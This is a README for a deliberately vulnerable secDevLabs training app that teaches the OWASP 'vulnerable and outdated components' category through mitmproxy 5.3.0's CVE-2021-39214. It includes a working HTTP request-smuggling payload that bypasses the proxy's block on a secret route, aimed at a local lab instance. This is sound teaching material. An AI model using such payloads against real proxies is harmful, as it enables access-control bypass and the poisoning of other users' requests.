 <!-- This is a README Template for secDevLabs apps -->
# Golden hat society

<p align="center">
    <img src="https://raw.githubusercontent.com/globocom/secDevLabs/master/owasp-top10-2021-apps/a6/golden-hat/images/img1.png"/>
</p>

Golden hat society is an application made with python that has a reverse proxy, mitmproxy, blocking the route `/golden.secret` that must be accessed only by whom is inside the docker VPN.

## Index

- [Definition](#definition)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)


## <a name="definition"></a> What does it mean to use vulnerable and outdated components?

This vulnerability was #9 on OWASP top ten 2017 and made all the way up to #6 in 2021. Normally, softwares that contains incoming connections, are executed by exclusive users with restricted permissions. The reason why is that if someone exploits the application, then this attacker can't do much because of these permissions.

As softwares get bigger and bigger, we must use some libraries at some point, this means that those libs must be secure too. The main point of this vulnerability is to use a lib, framework and other modules vulnerable to an already known vulnerability (known by advisories).

The main goal of this app is to discuss how using vulnerable and outdated components can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To run the app:

```
cd secDevLabs/owasp-top10-2021-apps/a6/golden-hat
make install
```

## Get to know the app ⚜️

To properly understand how this application works, you can follow these simple steps:

* Visit the homepage.

## Attack narrative

Now that you know the purpose of this app, what could possibly go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or it's users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Use of vulnerable mitmproxy version allows HTTP desync attacks

First time acessing the app on port 10006:

<p align="center">
    <img src="https://raw.githubusercontent.com/globocom/secDevLabs/master/owasp-top10-2021-apps/a6/golden-hat/images/img1.png"/>
</p>

Once we try reaching the `/golden.secret` we can see interesting headers:

<p align="center">
    <img src="https://raw.githubusercontent.com/globocom/secDevLabs/master/owasp-top10-2021-apps/a6/golden-hat/images/attack1.png"/>
</p>

As we can see this `Via: mitmproxy/5.3.0` helps us with the recon. Now that we know the vulnerability we can search for CVEs on this version of mitmproxy. Once we found the CVE-2021-39214, we can make a 1-day exploit to this vulnerability.

Let's take a look on the mitmproxy source code, [TAG 5.3.0](https://github.com/mitmproxy/mitmproxy/tree/v5.3.0) at file [/mitmproxy/net/http/http1/read.py:L209](https://github.com/mitmproxy/mitmproxy/blob/a738b335a36b58f2b30741d76d9fe41866309299/mitmproxy/net/http/http1/read.py#L209):

```python
if "chunked" in headers.get("transfer-encoding", "").lower():
    return None
```

As we can see this piece of code is responsible for the vulnerability. Now that we know that the proxy proccess any request as chunked that contains the chunked keyword, we can craft an request that the proxy will understand as `Transfer-Encoding` chunked and the gunicorn backend will understand as `Content-Length`.

```
GET /w HTTP/1.1
Host: 127.0.0.1:10006
Transfer-Encoding: chunkedasd
Content-Length: 4

35
GET /golden.secret HTTP/1.1
Host: 127.0.0.1:8000


0

GET / HTTP/1.1
Host: 127.0.0.1:10006


```

The first request forces a 404 error. The frontend(proxy) will parse the request as a normal request with body until the 0. The backend will process the first request until 35 and then will parse the request to `/golden.secret` poisoning the next socket. Then we just put a new alignment request at the end to poison a socket that we control.

After running this payload as a request we can see the secret page:


<p align="center">
    <img src="https://raw.githubusercontent.com/globocom/secDevLabs/master/owasp-top10-2021-apps/a6/golden-hat/images/attack2.png"/>
</p>

This vulnerability is interesting because you can poison other clients requests and smug them to do what you want!

## Secure this app

How would you migitate this vulnerability? After your changes, an attacker should not be able to:

- Bypass proxy rules.

## PR solutions

[Spoiler alert 🚨 ] To understand how this vulnerability can be mitigated, check out [these pull requests]!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[secDevLabs]: https://github.com/globocom/secDevLabs